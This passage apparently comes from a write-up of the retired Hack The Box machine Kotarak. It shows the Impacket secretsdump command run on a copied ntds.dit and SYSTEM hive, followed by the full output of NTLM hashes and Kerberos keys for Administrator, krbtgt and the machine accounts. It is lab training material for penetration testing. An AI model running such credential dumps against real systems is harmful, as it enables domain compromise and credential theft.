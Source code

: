 Execute the listener first.

Repeat the process with the other file.



<hr width="250" size="6">


One of [Raj Candel's Blog](https://www.hackingarticles.in/3-ways-extract-password-hashes-from-ntds-dit/) articles gives us a method to extract the password hashes from the .dit file.

First I rename the `.bin` file as 'SYSTEM', and the `.dit` file as 'ntds.dit', which matches Raj's blog, and makes them less unweildy.

Extract the information with the command:

```
python /opt/impacket/examples/secretsdump.py -system /root/HTB/retired/kotarak/SYSTEM -ntds /root/HTB/retired/kotarak/ntds.dit LOCAL
```

This works, and the output follows...

```

Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from /root/HTB/retired/kotarak/ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys from /root/HTB/retired/kotarak/ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:6c53b16d11a496d0535959885ea7c79c04945889028704e2a4d1ca171e4374e2
Administrator:aes128-cts-hmac-sha1-96:e2a25474aa9eb0e1525d0f50233c0274
Administrator:des-cbc-md5:75375eda54757c2f
WIN-3G2B0H151AC$:aes256-cts-hmac-sha1-96:84e3d886fe1a81ed415d36f438c036715fd8c9e67edbd866519a2358f9897233
WIN-3G2B0H151AC$:aes128-cts-hmac-sha1-96:e1a487ca8937b21268e8b3c41c0e4a74
WIN-3G2B0H151AC$:des-cbc-md5:b39dc12a920457d5
WIN-3G2B0H151AC$:rc4_hmac:668d49ebfdb70aeee8bcaeac9e3e66fd
krbtgt:aes256-cts-hmac-sha1-96:14134e1da577c7162acb1e01ea750a9da9b9b717f78d7ca6a5c95febe09b35b8
krbtgt:aes128-cts-hmac-sha1-96:8b96c9c8ea354109b951bfa3f3aa4593
krbtgt:des-cbc-md5:10ef08047a862046
krbtgt:rc4_hmac:ca1ccefcb525db49828fbb9d68298eee
WIN2K8$:aes256-cts-hmac-sha1-96:289dd4c7e01818f179a977fd1e35c0d34b22456b1c8f844f34d11b63168637c5
WIN2K8$:aes128-cts-hmac-sha1-96:deb0ee067658c075ea7eaef27a605908
WIN2K8$:des-cbc-md5:d352a8d3a7a7380b
WIN2K8$:rc4_hmac:160f6c1db2ce0994c19c46a349611487
WINXP1$:aes256-cts-hmac-sha1-96:347a128a1f9a71de4c52b09d94ad374ac173bd644c20d5e76f31b85e43376d14
WINXP1$:aes128-cts-hmac-sha1-96:0e4c937f9f35576756a6001b0af04ded
WINXP1$:des-cbc-md5:984a40d5f4a815f2
WINXP1$:rc4_hmac:6f5e87fd20d1d8753896f6c9cb316279
WIN2K31$:aes256-cts-hmac-sha1-96:f486b86bda928707e327faf7c752cba5bd1fcb42c3483c404be0424f6a5c9f16
WIN2K31$:aes128-cts-hmac-sha1-96:1aae3545508cfda2725c8f9832a1a734
WIN2K31$:des-cbc-md5:4cbf2ad3c4f75b01
WIN2K31$:rc4_hmac:cdd7a7f43d06b3a91705900a592f3772
WIN7$:aes256-cts-hmac-sha1-96:b9921a50152944b5849c706b584f108f9b93127f259b179afc207d2b46de6f42
```